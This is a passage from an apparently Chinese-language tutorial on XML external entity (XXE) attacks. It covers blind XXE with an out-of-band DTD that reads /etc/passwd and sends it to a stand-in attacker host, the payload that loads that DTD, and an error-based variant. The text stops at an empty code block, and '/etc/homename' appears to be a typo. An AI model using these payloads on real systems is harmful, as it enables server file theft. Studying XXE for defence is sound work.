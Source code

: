 ![](2022-11-01-11-02-37.png)
### Port Scan
方式与SSRF相同,根据响应来判断IP是否存活,端口是否开放.
### RCE
需要php安装expect扩展.
### DDOS
## Blind XXE
常规XXE中可以直接得到XML解析的结果,而Blind XXE即响应中没有相应的结果,无法判断执行情况.
### Data out-of-band
数据带外通道可以在没有回显的情况下通过其它方式将解析结果显示出来.
1. 首先在恶意服务器上托管一个DTD文件
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```  
2. 插入如下payload加载该外部DTD文件
```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"http://web-attacker.com/malicious.dtd"> %xxe;]>
```
当xml解析时  
1. 首先解析xxe参数实体,这时从恶意服务器请求加载恶意的dtd文件.
2. 解析远程dtd文件时,首先触发解析`%eval`参数实体.
3. 在`%eval`参数实体的定义中,获取到`%exfiltrate`实体的定义.
4. 解析`%exfiltrate`参数实体,其定义为请求恶意服务器地址,其中包含x参数参数实体`%file`的值.
5. 而`%file`参数实体的定义为读取到的/etc/passwd的值,这时在恶意服务器上的请求日志中便能得到该文件的内容.  

有时候因为/etc/passwd中的特殊字符(换行等)会导致文件读取失败,可以考虑换成/etc/homename.
### 报错回显
这种方式通过构造一个错误的解析数据,使得解析器报错并且将想要的结果包含在错误信息中,如果服务器会返回错误信息的话则可以从报错信息中获取相应数据.
1. 在服务上托管一个会产生解析错误的dtd文档.
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///xxx/%file;'>">
%eval;
%exfil;
```  
可以看到在`exfil`实体的定义中,其file协议读取文件时包含了一个不存在的路径,这会导致一个报错.
2. 插入如下payload
```xml
```